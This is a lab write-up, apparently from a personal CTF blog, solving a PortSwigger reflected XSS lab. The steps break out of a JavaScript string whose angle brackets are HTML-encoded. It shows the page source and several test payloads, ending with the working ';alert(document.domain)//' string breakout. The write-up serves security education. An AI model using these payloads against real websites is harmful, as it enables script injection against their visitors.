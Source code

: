 # Reflected XSS into a JavaScript string with angle brackets HTML encoded | Dec 29, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded), you'll learn: Reflected XSS into a JavaScript string with angle brackets HTML encoded! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071233.png)

In here, we can there is a search box.

Let's search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071314.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071330.png)

As you can see, our input is reflected to the web page.

**Let's try to inject a JavaScript code that calls function `alert()`:**
```html
<script>alert(document.domain)</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229071433.png)

**View source page:**
```html
<section class=blog-header>
    <h1>0 search results for '&lt;script&gt;alert(document.domain)&lt;/script&gt;'</h1>
    <hr>
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    var searchTerms = '&lt;script&gt;alert(document.domain)&lt;/script&gt;';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

In here, we can see that our `<>` were HTML encoded.

Also, **our input is being parsed to the `document.write`.**

**Let's try to break that JavaScript string:**
```html
'" onload=alert(document.domain) close="
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229072054.png)

**View source page:**
```html
<section class=blog-header>
    <h1>0 search results for '&apos;&quot; onload=alert(document.domain) close=&quot;'</h1>
    <hr>
</section>
```

Hmm... **Looks like we can't use `<>'"`.**

**To breaking out of a string literal, we can use:**
```js
';alert(document.domain)//
```

The `';` is to end the string and the current JavaScript line, then the `//` is to commented out the reset of the JavaScript code.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229072351.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-9/images/Pasted%20image%2020221229072358.png)

We did it!

# What we've learned:

1. Reflected XSS into a JavaScript string with angle brackets HTML encoded